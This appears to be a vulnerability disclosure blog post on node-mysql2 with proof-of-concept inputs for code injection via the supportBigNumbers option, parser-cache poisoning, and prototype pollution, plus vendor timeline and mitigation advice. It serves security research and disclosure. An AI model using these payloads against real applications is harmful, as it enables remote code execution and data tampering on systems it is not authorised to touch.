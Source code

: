 ```yaml
---
title: 'Unveiling Vulnerabilities in node-mysql2 : Exploiting Remote Code Execution, Cache Poisoning, and Prototype Pollution'
date: 2024-01-12T00:00:00-03:00
tags: [security+]
---
```


> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
The node-mysql2 library is one of the most popular libraries for connecting to a database in JavaScript, with over 2 million installations per week.

At the end of last year, I encountered an automation system that utilized the node-mysql2 library to connect to user databases and execute queries controlled by them.
In this article, I want to discuss the issues it causes and provide you with their solutions.

# Basics
In the application I was researching, the user could establish a connection to their database and execute queries with it:

```
// Simplified example
const mysql = require('mysql2');
...
const connection = mysql.createConnection({
    host: userdata.host,
    user: userdata.user,
    database: userdata.db,
    password: userdata.password,
});
...
connection.query(userdata.query,reponseFunction)
);

```

Obviously, in this case, I cannot talk about standard SQL-related attack vectors since the connection belongs to us. Therefore, I should consider issues related to affecting other users data or server performance.

# RCE
As you might guess, I was able to find a way to execute arbitary code in such a configuration, but how is this possible?

First, let's understand how the library works. In most cases, the first argument passed to the connection.query function is a string containing the query:

```
connection.query("SELECT 1;",reponseFunction)

```

But actually, the first argument can also be an object, where in addition to the query itself, I can pass parameters for its processing:

```
connection.query({sql:"SELECT 1;", ... },reponseFunction)

```

After that, the passed configuration parameters will be used by the response parsing [function](https://github.com/sidorares/node-mysql2/blob/1609b5393516d72a4ae47196837317fbe75e0c13/lib/parsers/text_parser.js#L14C10-L14C21).
(It's also worth noting that these same parameters can be passed directly into the database connection, which can be useful if the query argument is filtered.)

If you look closely, you will notice that this function involves code generation. MySQL2 generates a parsing function for each query, which is then cached for optimization purposes. This is important for understanding this article.

I noticed that in most cases, it successfully sanitizes the data that enters the generated code. However, there is also a line:

```
return `packet.parseLengthCodedInt(${supportBigNumbers})`;

```

The parameter supportBigNumbers is a number in a legitimate case, so it is not sanitized. However, are there any checks for this?

A quick look at the code revealed that such checks are absent. This piece of code will be executed if the executed query returns a BIGNUMBER, so to achieve RCE, it is sufficient to pass the following object as the first argument:

```
{sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"}

```

As a result, you will see 1337 in the console after executing this database query.

**!!! It's also important to understand that an object with a global prototype is used as a map. Therefore, you can use this as Prototype Pollution to achieve RCE. If the targeted application uses mysql2 and you achieve PP, you can also gain RCE.**

# Cache Poisoning
The next vulnerability becomes accessible even in stricter application configurations. Its exploitation is possible even if the first argument query is checked to ensure it is a string.
As I mentioned earlier, the library utilizes caching of generated response functions. Let's take a look at how it was [implemented](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/parser_cache.js#L9):

```
function keyFromFields(type, fields, options, config) {
  let res =
    `${type}` +
    `/${typeof options.nestTables}` +
    `/${options.nestTables}` +
    `/${options.rowsAsArray}` +
    `/${options.supportBigNumbers || config.supportBigNumbers}` +
    `/${options.bigNumberStrings || config.bigNumberStrings}` +
    `/${typeof options.typeCast}` +
    `/${options.timezone || config.timezone}` +
    `/${options.decimalNumbers}` +
    `/${options.dateStrings}`;
  for (let i = 0; i < fields.length; ++i) {
    const field = fields[i];
    res += `/${field.name}:${field.columnType}:${field.length}:${field.schema}:${field.table}:${field.flags}:${field.characterSet}`;
  }
  return res;
}

```

As you can see, keys are inserted into the string, and ":" is used as a delimiter. This is a poor implementation because the values passed into the key can also contain ":". By exploiting this characteristic, one can manipulate the hashed function:

```
connection.query(
'SELECT information_schema.tables.TABLE_NAME,`tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS FROM information_schema.tables INNER JOIN information_schema.tables AS `tables:160:63/DATA_LENGTH:8:undefined::tables` ON `tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS!=information_schema.tables.TABLE_ROWS LIMIT 1;',
    function(err, results, fields) {
    }
  );
  // Send another request and spwan new connection
  connection1.query(
    `SELECT TABLE_NAME, TABLE_ROWS, DATA_LENGTH FROM information_schema.tables LIMIT 1;`,
    function(err, results, fields) {
      console.log(results);
      console.log(fields);
    }
  );

```
You will see output:

```
[ { TABLE_NAME: 'ADMINISTRABLE_ROLE_AUTHORIZATIONS', TABLE_ROWS: 0 } ]
[
  `TABLE_NAME` VARCHAR(64) NOT NULL,
  `TABLE_ROWS` BIGINT(21) UNSIGNED,
  `DATA_LENGTH` BIGINT(21) UNSIGNED
]

```

As evident, the fields of the second request include DATA_LENGTH, which, however, is absent in the results. This discrepancy arises because the first request stores in the cache a key `text/undefined/undefined/false/false/false/boolean/local/false/false/TABLE_NAME:253:undefined:information_schema:tables:20609:224/TABLE_ROWS:8:undefined::tables:160:63/DATA_LENGTH:8:undefined::tables:160:63` with an incorrect packet parser.

This can be used to disrupt the logic of the application, sending data types that are not expected.

Fixed in latest release.

# Prototype Poisoning / Pollution
Returning to the process of generating the function that parses the returned response, it can be observed that an object with a global prototype is used as the user-supplied [value](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/text_parser.js#L134):
```
parserFn("const result = {};");

```

Therefore, if you pass the following query:

```
SELECT CAST('{"toString": {"toString":true}, "tags": {"a": 1, "b": null}}' as JSON) AS __proto__;

```

You will notice that the response prototype has changed

```
Object.getPrototypeOf(results[0])
> { tags: { a: 1, b: null }, toString: { toString: true } }

```
his only controls a specific prototype, not the global one. However, if I have the ability to control the configuration, I can simply pass `nestTables: true`:

```
} else if (options.nestTables === true) {
    lvalue = `result[${helpers.srcEscape(fields[i].table)}][${fieldName}]`;
}

```
As many might understand, this will give us full prototype pollution.
   
# Conclusion 
I informed the vendor about these issues 90 days ago and my intentions to publish this material on March 26th. Unfortunately, the vendor did not provide the necessary cooperation, ignoring my emails for months, so this material was released without the final fixes.

Today, a [fix](https://github.com/sidorares/node-mysql2/releases/tag/v3.9.3) was released that addresses the cache manipulation issue. However, the remaining problems remain relevant in the latest version.

If you are using the library in the described scenarios, I strongly advise you to limit the connection parameters and the parameters passed in the query.